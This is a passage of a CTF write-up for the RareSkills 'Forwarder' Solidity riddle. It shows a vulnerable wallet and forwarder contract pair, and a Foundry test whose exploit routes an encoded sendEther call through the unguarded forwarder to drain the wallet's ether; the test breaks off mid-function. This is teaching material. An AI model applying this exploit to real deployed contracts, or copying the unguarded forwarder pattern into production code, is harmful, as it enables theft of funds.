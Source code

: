 # CTF Write Ups 2

## RareSkills Solidity Riddles: Forwarder
Link: https://github.com/RareSkills/solidity-riddles/blob/main/contracts/Forwarder.sol

### Contracts
- `src/Week10-11/Forwarder.sol`
```
contract Wallet {
    address public immutable forwarder;

    constructor(address _forwarder) payable {
        require(msg.value == 1 ether);
        forwarder = _forwarder;
    }

    function sendEther(address destination, uint256 amount) public {
        require(msg.sender == forwarder, "sender must be forwarder contract");
        (bool success,) = destination.call{value: amount}("");
        require(success, "failed");
    }
}

contract Forwarder {
    function functionCall(address a, bytes calldata data) public {
        (bool success,) = a.call(data);
        require(success, "forward failed");
    }
}
```
- `test/Week10-11/Forwarder.t.sol`
```
contract ForwarderTest is Test {
    address attackerWallet;
    uint256 attackerWalletBalanceBefore;
    Forwarder forwarderContract;
    Wallet walletContract;

    function setUp() public {
        attackerWallet = address(0xdead);
        forwarderContract = new Forwarder();
        walletContract = (new Wallet){value: 1 ether}(address(forwarderContract));
        attackerWalletBalanceBefore = attackerWallet.balance;
    }

    function testExploit() public {
        bytes memory data = abi.encodeWithSignature("sendEther(address,uint256)", attackerWallet, 1 ether);
        forwarderContract.functionCall(address(walletContract), data);

        _checkSolved();
    }

    function _checkSolved() internal {
        uint256 attackerWalletBalanceAfter = attackerWallet.balance;
        assertApproxEqAbs(
            attackerWalletBalanceAfter - attackerWalletBalanceBefore,
            1 ether,
            1000000000000000 //delta = 0.001
        );
        uint256 walletContractBalance = address(walletContract).balance;
        assertEq(walletContractBalance, 0);
```
